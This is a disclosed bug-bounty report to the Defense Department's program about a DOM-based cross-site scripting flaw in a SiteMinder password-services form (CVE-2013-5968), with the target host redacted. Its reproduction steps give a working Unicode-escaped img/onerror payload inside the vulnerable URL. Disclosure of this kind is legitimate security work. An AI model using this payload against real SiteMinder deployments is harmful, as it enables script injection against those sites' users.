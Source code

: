 # DOM-XSS

## Report Details
- **Report ID**: 1982099
- **URL**: https://hackerone.com/reports/1982099
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-05-10T19:06:02.873Z
- **Disclosed**: 2023-06-02T18:20:25.394Z

## Reporter
- **Username**: medokll0011
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
hello defense team :
I found DOM-XSS-SiteMinder on this subdomain : https://████/

## Impact

An attacker with access to the Siteminder CA could perform a cross-site scripting attack, which it would use to cause information leaks, privilege escalation, and/or denial of service.

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2013-5968

## Steps to Reproduce
Steps :
   1 go to https://███/siteminderagent/forms/smpwservices.fcc?SMAUTHREASON=7&USERNAME=\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e

    XSS will be triggered
this is payload :
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
